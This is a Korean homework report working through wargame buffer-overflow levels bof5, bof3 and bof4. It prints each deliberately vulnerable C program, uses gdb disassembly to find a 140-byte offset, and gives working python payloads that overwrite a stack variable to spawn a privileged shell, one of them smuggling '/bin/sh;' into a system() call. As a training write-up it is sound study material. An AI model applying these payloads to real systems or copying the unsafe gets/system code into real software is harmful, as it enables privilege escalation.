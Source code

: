 # Report. HW6.

## `bof5`

<details><summary>`bof5.c`</summary>
<p>
    
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];
    
    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

### 이전과의 차이점
- `bof4`는 argument로 문자열을 넘겨주었지만, 이번엔 *프로그램 내 입력*을 통하여 문자열을 넘겨주어야 한다.
- `system("/bin/sh")`을 통하여 BOF가 발생했을 경우 그 안에서 쉘을 실행하는 구문이 이번엔 `system(buf)`으로 바뀌었다. 그러니까, *입력을 통해* `/bin/sh`을 실행하여야 한다.

### 진행
그래서... 이번에도 `buf`와 `innocent` 간에 거리가 얼만큼 되는지 알아보아야 한다.

문자열을 입력받는 `gets`

    0x555555555244  <vuln+27>       lea rax, [rbp-0x90]
    0x55555555524b  <vuln+34>       mov rdi, rax
    0x55555555524e  <vuln+37>       mov eax, 0x0
    0x555555555253  <vuln+42>       call 0x5555555550f0 <gets@plt>
    
... 부분에서, `$rdi`가 가리키는 주소 `$rbp - 0x90` 주소를 찾아보니 주소값 `0x00007fffffffe400`이 나왔다. 여기가 `buf`의 시작주소일 것이다.

그리고 `innocent`와 `KEY`를 비교하는 부분

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678
    
...에서 `innocent`가 있는 주소값 `$rbp - 0x4`가 가리키는 곳을 찾아보니 주소값 `0x00007fffffffe48c`가 나왔다. `buf`에서 **140** 만큼의 주소값 차이가 존재한다. 그러니까... `gets`를 통해 140글자를 입력하고 뒤에 `KEY` 값을 넣어줘야 `innocent == KEY`가 `true`가 되어 그 안에 있는 코드가 실행될 것이다.

입력할 때 앞에 "/bin/sh; "를 붙여주자(그래야 쉘이 안에서 실행된다). 그리고... 중간에 있는 내용들은 #로 채워놓자(그래야 쉘이 실행되고 아무것도 실행하지 않게 - 중간에 채워놓은 #들 때문에 주석처리가 되어 아무것도 실행을 하지 않게 - 된다. 그 다음에 `innocent`에 들어갈 비교값 `0x12345678`을 **little-endian** 방식으로 입력을 시켜주고.

위의 말을 코드로 바꾸면, `"python -c ('/bin/sh; ' + '#' * 131 + '\x78\x56\x34\x12')"`의 결과물을 `bof5`의 입력값으로 주면 될 것이다.

![bof5_input_done](./HW6_screenshots/HW6_1.png)

성공했다. (`bof6` 비밀번호는 일부러 잘랐다)



## `bof3`

<details><summary>bof3.c</summary>
<p>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(UID_BOF4, UID_BOF4)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF4, UID_BOF4)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

`bof5`를 먼저 작성하고 `bof3`을 보았더니 `KEY`와 `system("/bin/sh")` 부분을 제외하고 다른 부분이 없...다. 그래서 풀이 방법도 비슷하다고 생각했는데, 우선... `innocent`와 `buf`의 주소값을 알아보자.

`bof5` 때와 같은 부분에서 `gets`가 참고하는 `$rdi`가 가리키는 주소 `$rbp - 0x90`의 주소값은 `0x00007fffffffe400`이 나왔고, `innocent`와 `KEY`를 비교하는 부분에서 `$rbp - 0x4`의 주소값으로 `0x00007fffffffe48c`가 나왔다. 여기도 동일하게 주소값 차이는 140이 나왔고.

`KEY`는 `0x61`... 그러니까 `0x00000061`인데, little-endian 방식으로라면 `\x00\x00\x00\x61`이 아니라 그냥 `\x61`만 주면 될 것이다.

위의 말을 코드로 바꾸면, `"python -c ('a' * 141)"`의 결과물을 `bof3`의 입력값으로 주면 될 것이다. (`0x61`은 소문자 `a`)

![bof3_input_done](./HW6_screenshots/HW6_2.png)

성공했다.



## `bof4`

<details><summary>bof4.c</summary>
<p>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(UID_BOF5, UID_BOF5)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF5, UID_BOF5)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```

</p></details>

`bof3`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- 키값이 달라졌다.
...의 차이가 있고, `bof5`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- `system` 안도 내가 쉘 경로를 줘야하진 않고, `innocent`만 바꾸는 데에 성공하면 쉘을 실행하게 된다.
...의 차이가 있다.

# -- END --

